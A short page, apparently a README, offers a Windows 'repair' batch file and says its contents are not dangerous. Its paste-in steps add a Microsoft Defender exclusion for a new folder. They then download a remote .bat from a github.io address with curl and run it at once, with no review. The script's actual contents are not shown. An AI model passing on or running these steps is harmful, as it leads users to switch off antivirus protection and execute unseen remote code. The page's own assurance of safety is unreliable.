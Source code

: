 This is a batch file for repair.

The contents are not dangerous.
However, since I couldn't think of a way to complete it with commands alone, I am creating an exclusion folder.


powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
del
```
rmdir C:check
```
